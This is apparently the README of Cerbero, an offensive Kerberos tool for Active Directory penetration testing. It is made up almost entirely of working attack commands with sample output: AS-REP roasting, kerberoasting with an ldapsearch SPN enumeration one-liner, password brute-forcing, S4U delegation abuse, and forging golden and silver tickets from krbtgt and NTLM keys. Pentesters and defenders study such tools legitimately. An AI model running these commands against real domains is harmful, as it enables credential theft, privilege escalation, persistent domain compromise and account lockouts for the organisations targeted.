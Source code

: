 <!-- cargo-sync-readme start -->

# Cerbero

Kerberos protocol attacker. Tool to perform several tasks
related with Kerberos protocol in an Active Directory pentest.

## Installation

From crates:
```sh
cargo install cerbero
```

From repo:
```sh
git clone https://gitlab.com/Zer1t0/cerbero.git
cd cerbero/
cargo install --path .
```

## Commands
- [ask](#ask)
- [asreproast](#asreproast)
- [brute](#brute)
- [convert](#convert)
- [craft](#craft)
- [hash](#hash)
- [kerberoast](#kerberoast)
- [list](#list)

### Ask
The `ask` command allows to retrieve Kerberos tickets (TGT/TGS) from the KDC
(Domain Controller in Active Directory environment). Moreover also
perform requests to obtain tickets by using the S4U2Self and S4U2Proxy
Kerberos extensions.

Ask TGT:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -vv
INFO - Request TGT for Hades
INFO - Save Hades TGT in Hades.ccache
```

Ask TGS:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -s ldap/under.world -vv
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request ldap/dc01 TGS for Hades
INFO - Save Hades TGS for ldap/dc01 in Hades.ccache
```

Perform S4u2self:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request Zeus S4U2Self TGS for Hades
INFO - Save Zeus S4U2Self TGS for Hades in Hades.ccache
```

Perform S4u2proxy:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus -s ldap/under.world
```


### AsRepRoast
`asreproast` can be used to discover users that do not require
pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```

### Brute
`brute` performs TGTs requests in order to discover user credentials
based on the KDC response. This bruteforce technique allows you to
discover:
+ Valid username/password pairs
+ Valid usernames
+ Expired passwords
+ Blocked or disabled users

This attack should be performed carefully since can block user
accounts in case of perform many incorrect authentication attemps
for the same user.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

### Convert
`convert` ticket files between krb (Windows) and
ccache (Linux) formats.

Convert ccache to krb:
```shell
cerbero convert hades.ccache hades.krb
```

Convert krb to ccache:
```shell
cerbero convert hades.krb hades.ccache
```
### Craft
To `craft` golden and silver tickets.

Craft a golden ticket (by using the `krbtgt` AES256 key):
```shell
$ cerbero craft -u under.world/kratos --sid S-1-5-21-658410550-3858838999-180593761 --aes fed0c966ff7f88d776bb35fed0f039725f8bbb87017d5b6b76ee848f25562d2c -vv
INFO - Save kratos TGT in kratos.ccache
```

Craft a silver ticket (for the service `cifs` hosted by the machine `styx`):
```shell
$ cerbero craft -u under.world/kratos --sid S-1-5-21-658410550-3858838999-180593761 --ntlm 29f9ab984728cc7d18c8497c9ee76c77 -s cifs/styx,under.world -vv
INFO - Save kratos TGS for cifs/styx.under.world in kratos.ccache
```

### Hash
Calculate the Kerberos keys (password hashes) from the user password.

Calculate RC4 key (NT hash):
```shell
$ cerbero hash 'IamtheKingofD34d!!'
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
```

Calculate all the keys:
```shell
$ cerbero hash 'IamtheKingofD34d!!' -u under.world/Hades
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
aes128:fe165dec904772a90a177069e4ea7019
aes256:1304965c35176aeb72e1ae5fdd6c2fe2e901af7223cb75f5eaac25ad667136e7
```

### Kerberoast
To format encrypted part of tickets in order to be cracked by hashcat or john.

```shell
$ cerbero kerberoast -s services.txt -u under.world/Hades -p IamtheKingofD34d!!
```
To get a list of services you could use `ldapsearch`:
```shell
ldapsearch -b "dc=under,dc=world" -w IamtheKingofD34d!! -D "Hades@under.world" "(&(samAccountType=805306368)(servicePrincipalName=*)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" servicePrincipalName | grep servicePrincipalName: | cut -d ' ' -f 2 | tee services.txt
```

### List
`list` shows the tickets information of a credentials file. Similar
to `klist` command.

```shell
$ cerbero list hades.ccache -fe
Ticket cache (ccache): FILE:hades.ccache

Hades@UNDER.WORLD => krbtgt/UNDER.WORLD@UNDER.WORLD
Valid starting: 12/22/2020 17:39:34
Expires : 12/23/2020 03:39:34
Renew until: 12/29/2020 17:39:34
Flags: FRIA
Etype (skey, tkt): aes256-cts-hmac-sha1-96 (18), aes256-cts-hmac-sha1-96 (18)
```

## Credits
This work is based on great work of other people:
- [Impacket](https://github.com/SecureAuthCorp/impacket) of Alberto Solino [@agsolino](https://github.com/agsolino)
- [Rubeus](https://github.com/GhostPack/Rubeus) of Will [@harmj0y](https://twitter.com/harmj0y) and Elad Shamir [@elad_shamir](https://twitter.com/elad_shamir)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) of [@gentilkiwi](https://twitter.com/gentilkiwi)

<!-- cargo-sync-readme end -->
